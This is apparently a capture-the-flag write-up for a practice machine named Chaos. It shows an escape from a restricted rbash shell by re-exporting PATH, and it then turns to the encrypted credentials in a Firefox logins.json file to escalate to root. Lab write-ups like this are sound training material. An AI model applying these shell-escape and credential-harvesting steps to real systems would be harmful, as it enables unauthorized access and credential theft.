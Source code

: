 ```
ayush@chaos:/$ cd /home
rbash: cd: restricted
ayush@chaos:/$ echo $SHELL
/opt/rbash
```

An additional error message is received when attempting to run commands with `/` in them (or any command that isn't in set within the `ayush` user's PATH variable):

```
ayush@chaos:/$ ls
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
ayush@chaos:/$ echo $PATH
/home/ayush/.app
```

As the `echo` command is allowed, the following command was issued to discover which programs `ayush` is able to run.

```
ayush@chaos:/$ echo /home/ayush/.app/* 
/home/ayush/.app/dir /home/ayush/.app/ping /home/ayush/.app/tar
```

This shows that the `ayush` user is only allowed to run `dir`, `ping`, and `tar`.

Note that previously the command `su --login ayush` was issued when switching from the `www-data` user to the `ayush` user. Using the `su` command along with `-`, `l`, or `--login` (they all do the same thing) will (from `man su`) "start the shell as a login shell with an environment similar to a real login." Logging in as the `ayush` user in this way allows for a simple escape from the `rbash` shell. A new PATH variable was exported, escaping the `ayush` user from the restricted shell.

 ```
ayush@chaos:~$ export PATH=/bin:/usr/bin/:$PATH
ayush@chaos:~$ echo $PATH
/bin:/usr/bin/:/home/ayush/.app
ayush@chaos:~$ /bin/bash
```

From here, the `user.txt` flag can be read.

```
ayush@chaos:~$ cat user.txt
eef39126<redacted>
```

## Root
The route to privilege escalation lies within the hidden `.mozilla` directory. in `/home/ayush`. In the `~/.mozilla/firefox/bzo7sjt1.default` directory there is a `logins.json` file, the contents of which is shown below.

```
{"nextId":3,"logins":[{"id":2,"hostname":"https://chaos.htb:10000","httpRealm":null,"formSubmitURL":"https://chaos.htb:10000","usernameField":"user","passwordField":"pass","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECDSAazrlUMZFBAhbsMDAlL9iaw==","encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECNx7bW1TuuCuBBAP8YwnxCZH0+pLo6cJJxnb","guid":"{cb6cd202-0ff8-4de5-85df-e0b8a0f18778}","encType":1,"timeCreated":1540642202692,"timeLastUsed":1540642202692,"timePasswordChanged":1540642202692,"timesUsed":1}],"disabledHosts":[],"version":2}
```
